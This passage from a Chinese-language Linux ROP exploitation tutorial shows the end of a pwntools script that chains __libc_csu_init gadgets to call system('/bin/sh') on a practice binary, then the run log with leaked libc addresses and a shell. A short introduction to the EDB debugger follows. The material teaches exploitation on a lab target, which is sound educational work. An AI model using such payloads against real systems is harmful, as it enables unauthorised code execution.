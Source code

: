 ```

p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400610) + p64(0)*3 + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_r12_r13_r14_r15_ret
payload3 += p64(0x400673) + p64(0) + p64(1) #pop rbx; pop rbp; ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "A"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"

p.send(payload3)

p.interactive() 
```

要注意的是，当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。如果进行远程攻击的话，需要保证ping值足够小才行（局域网）。最终执行结果如下：

```
#!bash
$ python exp7.py 
[+] Started program './level5'
got_write: 0x601000
got_read: 0x601008
off_system_addr: 0xa1c40

#############sending payload1#############

write_addr: 0x7f79d5779370
system_addr: 0x7f79d56d7730

#############sending payload2#############

#############sending payload3#############

[*] Switching to interactive mode
$ whoami
mzheng 
```

## 0x05 EDB调试器

我们在学习Linux ROP的过程中一定少不了调试这一环节，虽然gdb的功能很强大，但命令行界面对很多人来说并不友好。很多学习Windows调试的人用惯了ollydbg再接触gdb的话总感觉很难上手。其实在linux下也有类似于ollydbg的调试工具，那就是EDB-debugger。这里给出edb的下载地址，具体的编译请参考readme：
